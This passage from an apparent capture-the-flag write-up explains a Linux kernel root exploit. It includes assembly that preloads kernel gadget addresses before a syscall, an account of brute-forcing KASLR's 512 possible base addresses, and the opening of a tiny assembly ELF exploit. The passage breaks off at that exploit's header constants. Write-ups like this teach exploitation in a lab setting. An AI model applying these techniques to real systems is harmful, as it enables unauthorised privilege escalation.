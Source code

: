 ```x86asm
pwn:
    mov [user_rsp], rsp
    mov r15, 0xffffffff81075c4c
    mov r14, 0xffffffff8266b780
    mov r13, 0xffffffff810c9dd5
    mov r12, 0xffffffff810761da
    lea rbp, [.after_syscall]
    mov rbx, 0xffffffff8107605a
    mov r10, 0xffffffff81c00109
    ; SYS_read
    xor eax, eax
    syscall
.after_syscall:
    mov rsp, [user_rsp]
    ret

user_rsp: dq 0
```

Combined with the `seq_operations` exploit this makes us root, and we can simply
read and print the flag or `execve` a shell after returning to userspace.

There is still an elephant in the room though. So far we have assumed that we
know the address of all of these gadgets, and yet we still have absolutely no
leaks of kernel addresses or a way to bypass KASLR.

Luckily for us even with KASLR the base address of the kernel is not very random.
In fact there are only 512 possible addresses at which the kernel will load
itself. This is small enough that we can brute force it in a reasonable amount
of time. We will keep trying our exploit assuming that the kernel's base address
is `0xffffffff81000000` (same as if there was no KASLR) and eventually we will
succeed. We are nearly guaranteed to succeed at least once if we run the exploit
~2000 times. In our experiments running the exploit against the remote system
took about 5-10 seconds. We did some napkin math and concluded that we should
be able to get the flag in about an hour or two by running multiple instances
of the exploit in parallel. Since we still had several hours left before the
end of the CTF we decided to go with that. We got the flag after about an hour.

I ended up writing an optimized version of the exploit entirely in assembly to
make it smaller and speed up the brute forcing. The target VM has no internet
access so we have to upload the exploit through the VM's serial port which takes
a long time. Even when using UPX and musl, the C exploit was about 18KB. The
exploit written in assembly is only 342 bytes when gzipped, so it uploads much
faster.

```x86asm
; Keep running this exploit until it works, which should take about 512 tries.
; Or alternatively find a KASLR bypass :)

; Emit 64-bit code.
bits 64
; Use RIP-relative addressing by default.
default rel
; Load at this address
org 0x40000000

ELFCLASS64 equ 2
ELFDATA2LSB equ 1
EV_CURRENT equ 1
ELFOSABI_NONE equ 0
ET_EXEC equ 2
EM_X86_64 equ 62
PT_LOAD equ 1
PF_X equ 1
PF_W equ 2
```